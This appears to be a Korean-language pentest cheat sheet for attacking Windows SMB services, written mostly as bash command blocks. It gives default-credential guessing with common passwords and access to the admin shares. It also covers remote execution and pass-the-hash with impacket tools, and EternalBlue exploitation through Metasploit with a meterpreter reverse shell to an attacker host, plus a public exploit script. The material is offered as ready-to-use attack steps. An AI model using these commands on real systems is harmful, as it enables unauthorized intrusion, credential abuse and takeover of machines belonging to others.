 ```bash
```

### 🔐 크레덴셜 확보시 공격

```bash
# 기본 자격증명 시도
smbclient -L //{IP} -U administrator
# Password: administrator, password, admin, 123456, Password123

smbclient -L //{IP} -U guest
# Password: (empty), guest

# 크레덴셜로 공유 접근
smbclient //{IP}/C$ -U {USERNAME}
smbclient //{IP}/ADMIN$ -U {USERNAME}

# smbmap으로 권한 확인
smbmap -H {IP} -u {USERNAME} -p {PASSWORD}
smbmap -H {IP} -u {USERNAME} -p {PASSWORD} -R

# impacket 도구들로 원격 실행
impacket-psexec {USERNAME}:{PASSWORD}@{IP}
impacket-smbexec {USERNAME}:{PASSWORD}@{IP}
impacket-wmiexec {USERNAME}:{PASSWORD}@{IP}

# Pass-the-Hash 공격 (NTLM 해시 확보시)
impacket-psexec -hashes {LM_HASH}:{NTLM_HASH} {USERNAME}@{IP}
impacket-smbexec -hashes {LM_HASH}:{NTLM_HASH} {USERNAME}@{IP}
```

### 💥 SMB 취약점별 공격

#### EternalBlue (MS17-010)

```bash
# EternalBlue 취약점 확인
nmap --script smb-vuln-ms17-010 -p 445 {IP}

# Metasploit으로 EternalBlue 공격
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS {IP}
set payload windows/x64/meterpreter/reverse_tcp
set LHOST {ATTACKER_IP}
set LPORT 4444
exploit

# Python 스크립트로 EternalBlue
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
cd AutoBlue-MS17-010
python eternalblue_exploit7.py {IP}
```

